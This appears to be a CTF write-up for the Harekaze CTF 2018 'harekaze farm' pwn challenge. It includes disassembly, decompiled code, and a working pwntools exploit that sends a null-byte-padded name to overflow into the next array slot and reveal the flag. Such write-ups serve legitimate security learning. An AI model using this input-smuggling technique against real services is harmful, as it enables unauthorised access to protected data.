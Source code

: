 ```yaml
---
layout: post
title: "farm"
---
```

# harekaze farm - harekaze ctf 2018 

In Harekaze Farm, some animas is living. Let’s find them!

file: [harekaze_farm](https://problem.harekaze.com/32536dfc77c33d38f0a7d40210eee3b7d2547955ab6ae9f1eb92defaf59371a3/harekaze_farm/harekaze_farm)

(Pwn, 100 points)

this challenge was a less trivial buffer overflow than im used to seeing in ctf!

i started by checking the binary mitigations in place:

```
checksec harekaze_farm    
[*] '/home/vagrant/harekaze/harekaze-farm/harekaze_farm'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

upon a quick look i could at the assembly i could tell that the goal was to have a favorite animal called 'isoroku':

```
  |│   0x00400abc      4805a0206000   add rax, obj.select_animals
  |│   0x00400ac2      bed20c4000     mov esi, str.isoroku
  |│   0x00400ac7      4889c7         mov rdi, rax
  |│   0x00400aca      e801fcffff     call sym.imp.strcmp
  |│   0x00400acf      85c0           test eax, eax
 ┌───< 0x00400ad1      757f           jne 0x400b52
 │|│   0x00400ad3      bfe00c4000     mov edi, str.isoroku:__flag_is_here___flag_is_here_
 │|│   0x00400ad8      e893fbffff     call sym.imp.puts
 │|│   0x00400add      488d95f0feff.  lea rdx, [local_110h]
 │|│   0x00400ae4      b800000000     mov eax, 0
 │|│   0x00400ae9      b920000000     mov ecx, 0x20
 │|│   0x00400aee      4889d7         mov rdi, rdx
 │|│   0x00400af1      f348ab         rep stosq qword [rdi], rax
 │|│   0x00400af4      be070d4000     mov esi, 0x400d07
 │|│   0x00400af9      bf090d4000     mov edi, str._home_harekaze_farm_flag
 │|│   0x00400afe      e8ddfbffff     call sym.imp.fopen
 │|│   0x00400b03      488985e8feff.  mov qword [local_118h], rax
 │|│   0x00400b0a      4883bde8feff.  cmp qword [local_118h], 0
┌────< 0x00400b12      7514           jne 0x400b28
││|│   0x00400b14      bf220d4000     mov edi, str.ERROR:_FILE_OPEN_ERROR
││|│   0x00400b19      e852fbffff     call sym.imp.puts
││|│   0x00400b1e      bf01000000     mov edi, 1
││|│   0x00400b23      e8c8fbffff     call sym.imp.exit
└────> 0x00400b28      488b95e8feff.  mov rdx, qword [local_118h]
 │|│   0x00400b2f      488d85f0feff.  lea rax, [local_110h]
 │|│   0x00400b36      beff000000     mov esi, 0xff
 │|│   0x00400b3b      4889c7         mov rdi, rax
 │|│   0x00400b3e      e87dfbffff     call sym.imp.fgets
 │|│   0x00400b43      488d85f0feff.  lea rax, [local_110h]
 │|│   0x00400b4a      4889c7         mov rdi, rax
 │|│   0x00400b4d      e81efbffff     call sym.imp.puts
```

however simply entering 'isoroku' does not work:

````
Welcome to Harekaze farm
Input a name of your favorite animal: sheep 
Input a name of your favorite animal: goat
Input a name of your favorite animal: isoroku
Begin to parade!
sheep: "baa" "baa"
goat: "bleat" "bleat"
```

i wanted an easy way to see how this could be pwned and the assembly was too much to read so i ran the binary through hex rays decompiler:

```c
  puts("Welcome to Harekaze farm");
  for ( i = 0; i <= 2; ++i )
  {
    *(_QWORD *)s1 = 0LL;
    v17 = 0LL;
    printf("Input a name of your favorite animal: ");
    s1[__read_chk(0LL, s1, 16LL, 16LL) - 1] = 0;
    if ( !strcmp(s1, "cow") )
    {
      v3 = (char *)&select_animals + 8 * i;
      v4 = v17;
      *(_QWORD *)v3 = *(_QWORD *)s1;
      *((_QWORD *)v3 + 1) = v4;
    }
    if ( !strcmp(s1, "sheep") )
    {
      v5 = (char *)&select_animals + 8 * i;
      v6 = v17;
      *(_QWORD *)v5 = *(_QWORD *)s1;
      *((_QWORD *)v5 + 1) = v6;
    }
    if ( !strcmp(s1, "goat") )
    {
      v7 = (char *)&select_animals + 8 * i;
      v8 = v17;
      *(_QWORD *)v7 = *(_QWORD *)s1;
      *((_QWORD *)v7 + 1) = v8;
    }
    if ( !strcmp(s1, "hen") )
    {
      v9 = (char *)&select_animals + 8 * i;
      v10 = v17;
      *(_QWORD *)v9 = *(_QWORD *)s1;
      *((_QWORD *)v9 + 1) = v10;
    }
  }
  puts("Begin to parade!");
  for ( j = 0; j <= 2; ++j )
  {
    if ( !strcmp((const char *)(8LL * j + 6299808), "cow") )
      puts("cow: \"moo\" \"moo\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "sheep") )
      puts("sheep: \"baa\" \"baa\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "goat") )
      puts("goat: \"bleat\" \"bleat\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "hen") )
      puts("hen: \"cluck\" \"cluck\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "isoroku") )
    {
      puts("isoroku: \"flag is here\" \"flag is here\"");
      memset(s1, 0, 0x100uLL);
      stream = fopen("/home/harekaze_farm/flag", "r");
      if ( !stream )
      {
        puts("ERROR: FILE OPEN ERROR");
        exit(1);
      }
      fgets(s1, 255, stream);
      puts(s1);
    }
  }
  result = 0;
  v12 = *MK_FP(__FS__, 40LL) ^ v18;
  return result;
}
```

so our input is taken in with the read system call (size 16) which i know can accept null bytes, strcpy will stop comparing on null bytes as well..

so with that i could write my exploit!

```python
#!/usr/bin/python

from pwn import *

REMOTE = True 
#DEBUG = True
DEBUG = False

host = 'problem.harekaze.com'
port = 20328

def getpipe():
    if REMOTE:
        return remote(host, port)
    else:
        return process('./harekaze_farm')

r = getpipe()

gdbscript = '''
b *0x00400aca
c
'''

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('al: ')
r.sendline('sheep\x00AAisoroku')
r.recvuntil('al: ')
r.sendline('burps')
r.recvuntil('al: ')
r.sendline('hen')

r.interactive()

r.close()

'''
[+] Opening connection to problem.harekaze.com on port 20328: Done
[+] Opening connection to problem.harekaze.com on port 20328: Done
[*] Switching to interactive mode
Begin to parade!
sheep: "baa" "baa"
isoroku: "flag is here" "flag is here"
HarekazeCTF{7h1s_i5_V3ry_B3ginning_BoF}
'''
```
